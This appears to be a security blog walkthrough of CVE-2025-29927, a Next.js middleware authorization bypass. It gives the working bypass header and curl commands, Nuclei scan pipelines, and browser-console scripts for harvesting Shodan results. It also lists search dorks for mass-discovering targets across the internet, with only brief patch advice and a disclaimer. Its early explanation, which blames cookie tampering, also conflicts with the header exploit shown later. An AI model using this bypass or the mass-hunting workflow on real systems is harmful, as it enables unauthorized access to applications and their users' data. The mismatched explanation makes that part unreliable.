 How Hackers Exploit CVE-2025–29927 in Next.js Like a Pro
Step-by-Step mass hunting Authorization Bypass by Middleware in next.js: A Complete Exploit Walkthrough
coffinxp
coffinxp

Following
7 min read
·
Apr 6, 2025
142


4






Introduction
CVE-2025–29927 is a critical vulnerability found in Next.js, the open-source web framework by Vercel that powers React based applications. It allows attackers to bypass middleware authorization, gaining access to protected resources without proper authentication. This flaw poses serious security risks, including data exposure and application compromise. In this article we’ll explore how the vulnerability works and how developers can secure their Next.js applications against it.

Understanding Next.js and Middleware
What is Next.js?
Next.js is a React-based framework that simplifies web development by providing built-in features such as server side rendering (SSR) static site generation (SSG) and API route handling. Its key features include:

Automatic Code Splitting: Faster page loads by only sending necessary JavaScript to the client.
SSR and SSG: Improved SEO and performance.
API Routes: Backend logic within the same application.
Middleware Support: Custom logic execution before reaching the route handler.
What is Middleware in Next.js?
Middleware in Next.js intercepts incoming HTTP requests and processes them before they reach the final route handler. It is commonly used for:

Authentication & Authorization: Checking if a user is logged in before granting access to certain pages.
Logging & Monitoring: Tracking requests for analytics or debugging.
Request Modification: Altering headers or query parameters before processing.
Understanding CVE-2025–29927
CVE-2025–29927 exploits an issue in Next.js middleware that allows attackers to bypass authentication and authorization checks. This occurs due to improper validation in request handling, allowing unauthorized users to gain access to protected resources.

Technical Explanation
The root cause of this vulnerability lies in middleware failing to enforce strict authentication checks. For example consider the following middleware function:

export function middleware(req) {
  if (!req.cookies.token) {
    return new Response('Unauthorized', { status: 401 });
  }
  return NextResponse.next();
}
In this setup if an attacker can manipulate the req.cookies.token value-perhaps through session fixation, cookie injection or header tampering they may be able to bypass authentication entirely.

Steps to Exploit CVE-2025–29927
While its important to focus on fixing the issue, understanding how the vulnerability is exploited can help with mitigation strategies.

Step 1: Identifying the Vulnerable Middleware
Let’s say you’re testing target.com and you suspect it’s running a vulnerable version of Next.js. The first step is to confirm whether the site is actually using Next.js. You can do this by checking the framework version using tools like the Wappalyzer browser extension.


extension will display the web framework as Next.js along with its version. Once you have the version compare it against the affected versions list for CVE-2025–29927 to determine if the site is vulnerable.

In some cases Wappalyzer might not display the Next.js version. When that happens you can try accessing endpoints like /_next/static/chunks/ or /_next/static/manifest.json to look for version leaks. Additionally check the response headers for X-Powered-By: Next.js using browser developer tools or tools like Burp Suite. You can also use the default Nuclei template for the Next.js CVE provided by the ProjectDiscovery team to automate the detection.

echo target.com | nuclei  -t nuclei-templates/http/cves/2025/CVE-2025-29927.yaml
subfinder -d target.com -all | nuclei -t nuclei-templates/http/cves/2025/CVE-2025-29927.yaml
This Nuclei template will display all the affected Next.js versions as shown in the screenshot below:


Step 2: Exploiting the Vulnerable Middleware
Once a vulnerable middleware is identified attackers can manipulate HTTP requests to bypass authorization checks. Start by locating a protected endpoint such as the admin dashboard. Then use the following simple curl command to inspect the response headers. If it returns a 307 redirect to the login page, it indicates that authorization is required to access that endpoint:

 curl -v https://target.com/dashboard

* Request completely sent off
< HTTP/1.1 307 Temporary Redirect
< location: /login
< Date: Fri, 04 Apr 2025 13:55:36
< Connection: keep-alive
< Keep-Alive: timeout=5
< Transfer-Encoding: chunked
<
* Connection #0 to host localhost left intact
/login                  
To exploit the vulnerability you can use the following simple curl command. It bypasses the authentication and grants access to the dashboard page:

curl -H "x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware" https://target.com/dashboard
Using Burp Suite
To exploit the vulnerability using Burp Suite, send a request to the protected endpoint in Repeater then add the following header to bypass the middleware and gain access to the dashboard page:

x-middleware-subrequest: middleware:middleware:middleware:middleware
Mass Hunting using Shodan
For mass hunting the Next.js vulnerability you can follow the approach I use. Start by going to Shodan and searching for the header x-middleware-rewrite. This will return around 15,440 results with that header present in the response an indicator of middleware usage as shown in the screenshot below:


Next, left click on the “More” option under Facet Analysis, then select the “Domain” filter just like shown in the screenshot:



After selecting the Domain filter you’ll see a list of all domains matching your search query. Now open Developer Tools by pressing F12, go to the Console tab paste the following code and hit Enter:

var ipElements=document.querySelectorAll('strong'),ips=[],domains=[];ipElements.forEach(function(e){var t=e.innerHTML.replace(/['"]/g,'').trim();/^(\d{1,3}\.){3}\d{1,3}$/.test(t)?ips.push(t):/^(?!\d+\.)[a-zA-Z0-9.-]+\.[a-zA-Z]{2,}$/.test(t)&&domains.push(t)});var dataString='IPs:\n'+ips.join('\n')+'\n\nDomains:\n'+domains.join('\n'),a=document.createElement('a');a.href='data:text/plain;charset=utf-8,'+encodeURIComponent(dataString);a.download='domains.txt';document.body.appendChild(a);a.click();

After entering the code and pressing Enter you’ll get an option to save the extracted domains. Go ahead and save the file you now have all the domains from the current query. You can follow the same process to extract IP addresses as well. Just enter the code below and it will list all the IPs associated with the search results:

var ipElements=document.querySelectorAll('strong');var ips=[];ipElements.forEach(function(e){ips.push(e.innerHTML.replace(/["']/g,''))});var ipsString=ips.join('\n');var a=document.createElement('a');a.href='data:text/plain;charset=utf-8,'+encodeURIComponent(ipsString);a.download='ip.txt';document.body.appendChild(a);a.click();
Now you have two files one containing all the IPs and another with domain names. Simply clean or sort the domain list using tools like uro or manually with a text editor like Notepad. Once sorted you’re all set to run the Nuclei template on these targets to begin scanning for the vulnerability:

cat ip.txt | uro | nuclei -t nuclei-templates/http/cves/2025/CVE-2025-29927.yaml
cat domains.txt | uro | nuclei -t nuclei-templates/http/cves/2025/CVE-2025-29927.yaml
You’ll now have a list of potentially vulnerable targets. From here you can verify each one manually or use an automation tool to confirm the vulnerability across all targets.


You can download all the templates from my GitHub repository. I’ve included three templates including one for cache poisoning via X-Middleware-Prefetch

nuclei-templates/CVE-2025-29927.yaml at main · coffinxp/nuclei-templates
Contribute to coffinxp/nuclei-templates development by creating an account on GitHub.
github.com

nuclei-templates/next-js.yaml at main · coffinxp/nuclei-templates
Contribute to coffinxp/nuclei-templates development by creating an account on GitHub.
github.com

nuclei-templates/nextjs-middleware-cache.yaml at main · coffinxp/nuclei-templates
Contribute to coffinxp/nuclei-templates development by creating an account on GitHub.
github.com

Dorks
You can also try using these dorks either manually or through automation to discover more potential targets:

shodan-query:
         - shodan-query: x-middleware-rewrite
         - http.html:"/_next/static"
         - cpe:"cpe:2.3:a:zeit:next.js"
fofa-query:
         - body="/_next/static"
         - "x-middleware-rewrite"
google-dork:
         - inurl:"/_next" AND intext:"next.config.js" OR intext:"Powered by Next.js"
Impact of CVE-2025–29927
Unauthorized Data Access: Attackers could view or modify private user information.
Privilege Escalation: Unauthorized users may gain administrative access.
Application Takeover: In severe cases attackers could compromise the entire application.
Affected Versions
Any Next.js application using outdated or misconfigured middleware may be vulnerable. Developers should refer to the official security advisory to review the affected versions and apply the recommended patches.

Next.js 15.x: Upgrade to 15.2.3 or later.
Next.js 14.x: Upgrade to 14.2.25 or later.
Next.js 13.x: Upgrade to 13.5.9 or later.
Next.js 12.x: Upgrade to 12.3.5 or later.
You can also watch this video where I showed the complete lab practical of this method:


Conclusion
CVE-2025–29927 highlights the importance of secure middleware configuration and proper access control mechanisms in web applications. Developers should follow these best practices for authentication and authorization to prevent the risk of such vulnerabilities thorough Regular security audits and testing.

Upnext: If you found this helpful, you’ll definitely want to check out my article How Hackers Abuse XML-RPC to Launch Bruteforce and DDoS Attacks. It breaks down real attack techniques and how to detect or defend against them 👇

How Hackers Abuse XML-RPC to Launch Bruteforce and DDoS Attacks
From Recon to full Exploitation: The XML-RPC Attack Path
infosecwriteups.com

Disclaimer
The content provided in this article is for educational and informational purposes only. Always ensure you have proper authorization before conducting security assessments. Use this information responsibly
